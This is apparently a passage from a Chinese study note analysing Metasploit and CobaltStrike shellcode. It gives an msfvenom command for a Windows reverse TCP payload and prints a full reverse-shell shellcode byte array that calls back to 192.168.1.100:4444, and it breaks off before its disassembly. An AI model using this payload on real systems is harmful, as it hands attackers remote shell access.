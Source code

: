 
## 概述

Metasploit 和 CobaltStrike 是两款广泛用于渗透测试和攻击的框架工具。它们都提供了生成和使用 shellcode 的功能。Shellcode 是一段小型的机器码，用于在目标系统上执行命令或建立反向连接。本篇笔记将分析 Metasploit 和 CobaltStrike 生成的 shellcode，理解其工作原理及特点。

## Metasploit Shellcode

### 生成 Shellcode

Metasploit 使用 `msfvenom` 工具生成 shellcode。以下是生成一个 Windows 反向 TCP shell 的命令：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```
### 分析 Shellcode

生成的 shellcode 通常包含以下几个部分：

1. **初始化部分**：设置必要的寄存器和栈。
2. **连接部分**：与攻击者的机器建立反向连接。
3. **执行部分**：接收并执行来自攻击者的命令。

### 示例代码

以下是一个简单的 Metasploit shellcode 示例：

```C
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c"
"\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20"
"\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x5f\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68\x77"
"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00"
"\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xc0\xa8"
"\x01\x64\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x00\x00\x89\xe6"
"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff"
"\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68"
"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xdd\x8b\x36\x6a\x40\x68"
"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e"
"\xcc\x8b\x06\x50\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24"
"\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56"
"\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
"\x87\x1d\x60\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff"
"\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5";
```
### 反汇编
